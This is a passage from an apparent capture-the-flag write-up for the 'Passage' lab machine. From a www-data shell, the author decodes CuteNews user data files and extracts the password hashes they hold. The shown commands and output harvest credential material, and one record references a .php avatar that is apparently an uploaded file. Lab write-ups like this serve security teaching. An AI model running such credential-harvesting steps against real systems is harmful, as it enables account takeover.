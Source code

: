 Looks like these files are containing base64 encoded data, Next we'll decode the data line by line

```shell
www-data@passage:/var/www/html/CuteNews/cdata/users$ cat * | grep -v 'php die' | while read line; do echo $line | base64 -d; echo; done
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}
a:1:{s:2:"id";a:1:{i:1598829833;s:6:"egre55";}}
a:1:{s:5:"email";a:1:{s:15:"egre55@test.com";s:6:"egre55";}}
a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:2:"id";a:1:{i:1592483281;s:9:"sid-meier";}}
a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"kim@example.com";s:9:"kim-swift";}}
a:1:{s:2:"id";a:1:{i:1592483236;s:10:"paul-coles";}}
a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:2:"id";a:1:{i:1592483047;s:5:"admin";}}
a:1:{s:5:"email";a:1:{s:15:"sid@example.com";s:9:"sid-meier";}}
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}
a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:3:"lts";s:10:"1598834079";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_spwvgujw.php";s:6:"e-hide";s:0:"";}}}
a:1:{s:2:"id";a:1:{i:1592483309;s:9:"kim-swift";}}
```

Appears to be PHP serialized data, Interestingly it does have the `pass` parameter containing password hash.

Looking at a sample hash, it's containing 64 characters, so let's again make use of grep and fetch the hashes containing 64 characters.

```shell
www-data@passage:/var/www/html/CuteNews/cdata/users$ cat * | grep -v 'php die' | while read line; do echo $line | base64 -d; echo; done | grep -oP [a-z0-9]{64}
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
```

### Cracking hashes
